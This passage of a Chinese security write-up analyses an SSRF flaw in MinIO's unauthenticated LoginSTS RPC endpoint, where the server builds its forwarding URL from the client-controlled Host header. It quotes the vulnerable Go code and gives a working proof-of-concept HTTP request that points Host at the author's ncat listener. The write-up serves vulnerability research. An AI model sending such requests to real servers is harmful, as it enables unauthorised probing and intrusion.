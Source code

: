 这就堵死了前两种绕过方法，爆破当然就更别说了，通常仅作为没办法的情况下的手段。当然，MinIO中使用用户的密码作为签名的密钥，这个其实会让爆破变地简单一些。

鉴权这块没啥突破，我们就可以看看，有哪些RPC接口没有进行权限验证。

很快找到了一个接口，`LoginSTS`。这个接口其实是AWS STS登录接口的一个代理，用于将发送到JsonRPC的请求转变成STS的方式转发给本地的9000端口（也就还是他自己，因为它是兼容AWS协议的）。

简化其代码如下：

```go
// LoginSTS - STS user login handler.
func (web *webAPIHandlers) LoginSTS(r *http.Request, args *LoginSTSArgs, reply *LoginRep) error {
    ctx := newWebContext(r, args, "WebLoginSTS")

    v := url.Values{}
    v.Set("Action", webIdentity)
    v.Set("WebIdentityToken", args.Token)
    v.Set("Version", stsAPIVersion)

    scheme := "http"
    // ...

    u := &url.URL{
        Scheme: scheme,
        Host:   r.Host,
    }

    u.RawQuery = v.Encode()
    req, err := http.NewRequest(http.MethodPost, u.String(), nil)
    // ...
}
```

没发现有鉴权上的绕过问题，但是发现了另一个有趣的问题。这里，MinIO为了将请求转发给“自己”，就从用户发送的HTTP头Host中获取到“自己的地址”，并将其作为URL的Host构造了新的URL。

这个过程有什么问题呢？

因为请求头是用户可控的，所以这里可以构造任意的Host，进而构造一个SSRF漏洞。

我们来实际测试一下，向`http://192.168.227.131:9000`发送如下请求，其中Host的值是我本地ncat开放的端口（`192.168.1.142:4444`）：

```plain
POST /minio/webrpc HTTP/1.1
Host: 192.168.1.142:4444
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.141 Safari/537.36
Content-Type: application/json
Content-Length: 80

{"id":1,"jsonrpc":"2.0","params":{"token":  "Test"},"method":"web.LoginSTS"}
```

成功收到请求：

![](images/202202091232269.png)
